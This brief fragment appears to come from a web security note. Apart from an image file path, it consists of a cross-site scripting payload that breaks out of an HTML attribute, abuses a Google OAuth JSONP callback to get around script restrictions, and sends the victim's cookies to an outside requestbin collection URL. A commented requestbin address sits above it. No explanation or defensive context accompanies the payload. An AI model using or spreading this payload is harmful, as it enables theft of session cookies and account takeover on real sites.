 
// http://requestbin.net/r/b6nz0c3q

"><script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.href='http://requestbin.net/r/b56aunvn?cookie='%2bdocument.cookie;"></script>
